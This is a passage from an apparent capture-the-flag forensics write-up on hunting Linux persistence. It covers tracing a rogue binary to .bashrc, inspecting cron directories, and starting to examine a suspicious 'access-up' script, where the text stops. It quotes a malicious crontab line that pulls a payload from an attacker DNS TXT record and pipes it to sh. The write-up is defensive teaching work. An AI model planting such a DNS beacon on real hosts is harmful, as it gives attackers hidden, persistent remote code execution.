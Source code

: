 Alertd
To easily find where this binary is getting called from, we can grep for reference to it. If it’s spawning with shells, then it’s going to be in the shell rc file in either /root (the home directory for the root user) or /home/user.

root@forensicspersistence-329816-7c4d8fb9fd-7kgb7:~# grep -Ril "alertd" /root
/root/.bashrc
Knowing that we have a bad .bashrc, we can actually just overwrite it with the skeleton .bashrc stored in /etc/skel. To do that we simply run cp /etc/skel/.bashrc /root/.bashrc and we’ll repeat the process for the user account since for some reason their .bashrc is actually “owned” by root.

Cronjobs
user
We can see scheduled cron jobs by running crontab -l and sure enough we find something interesting:

user@forensicspersistence-329816-7c4d8fb9fd-7kgb7:~$ crontab -l
* * * * * /bin/sh -c "sh -c $(dig imf0rce.htb TXT +short @ns.imf0rce.htb)"
I spy a DNS TXT Beacon!

dig is a command used to query DNS records and from Cloudflare’s site, we see that we can enter arbitrary text into DNS TXT records. This particular cronjob is an example of using DNS TXT records to execute a payload onto a host. The way it works is, the attacker has a malicious DNS server in the wild and when the TXT record gets queried by a resolver, it will grab whatever is in that TXT record and use it as an argument for the sh -c command. It’s safe to assume that in this scenario, the TXT record of “imf0rce.htb” is storing a malicious payload. So, we can go ahead and remove this cron job by running crontab -e and deleting that entry. Since we found one cronjob on the user account, we should also look through the root account to see if there are any evil crons.

root
Running crontab -l as root didn’t show anything, but that doesn’t necessarily mean there aren’t malicious cron jobs. To verify this we can navigate to /etc and look through the various cron.* folders. There’s a few folders, but using some command line voodoo we can look through all them quickly by using a recursive ls on a blob like this:

root@forensicspersistence-329816-7c4d8fb9fd-7kgb7:/etc# ls -R ./cron.*
./cron.d:
anacron  e2scrub_all  popularity-contest

./cron.daily:
0anacron  access-up  apt-compat  bsdmainutils  dpkg  logrotate  man-db  popularity-contest  pyssh

./cron.hourly:

./cron.monthly:
0anacron

./cron.weekly:
0anacron  man-db
There are a few things that I don’t recognize from my familiarity with linux: access-up and pyssh. So let’s investigate those further.

access-up
#!/bin/bash
DIRS=("/bin" "/sbin")
DIR=${DIRS[$[ $RANDOM % 2 ]]}
